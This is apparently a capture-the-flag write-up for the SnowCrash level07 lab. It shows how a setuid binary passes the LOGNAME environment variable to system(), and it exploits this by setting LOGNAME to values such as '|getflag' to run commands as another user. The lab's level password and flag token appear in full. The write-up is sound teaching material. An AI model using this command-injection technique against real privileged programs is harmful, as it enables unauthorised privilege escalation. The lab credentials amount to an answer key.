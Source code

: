 # Level 07 : found flag07

```bash
ssh level07@192.168.1.37 -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          192.168.1.37
level07@192.168.1.37's password: wiok45aaoguiboiki2tuin6ub
level07@SnowCrash:~$
```

```bash
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

```bash
level07@SnowCrash:~$ ./level07
level07
```

We can see with `ltrace` command that "level07" is printed with a call to `sytem("/bin/echo")` and the value to print is in the environment variable `LOGNAME`.

```bash
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff764, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                     = 2007
geteuid()                                                     = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)           = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)           = 0
getenv("LOGNAME")                                             = "level07"
asprintf(0xbffff6b4, 0x8048688, 0xbfffff26, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                        = 0
+++ exited (status 0) +++
```

```bash
level07@SnowCrash:~$ hexdump -C ./level07
[..]
00000680  4c 4f 47 4e 41 4d 45 00  2f 62 69 6e 2f 65 63 68  |LOGNAME./bin/ech|
00000690  6f 20 25 73 20 00 00 00  01 1b 03 3b 30 00 00 00  |o %s ......;0...|
[..]
```

```bash
level07@SnowCrash:~$ echo $LOGNAME
level07
```

So, by changing the value of `LOGNAME`, we can easily execute a command.

```bash
level07@SnowCrash:~$ env LOGNAME="|whoami" ./level07
flag07
```

```bash
level07@SnowCrash:~$ env LOGNAME="|getflag" ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

****************************************

Documentations :
* https://linux.die.net/man/1/strace
* https://linux.die.net/man/1/ltrace
* https://www.freebsd.org/cgi/man.cgi?query=hexdump&sektion=1
* https://phoenixts.com/blog/environment-variables-in-linux/
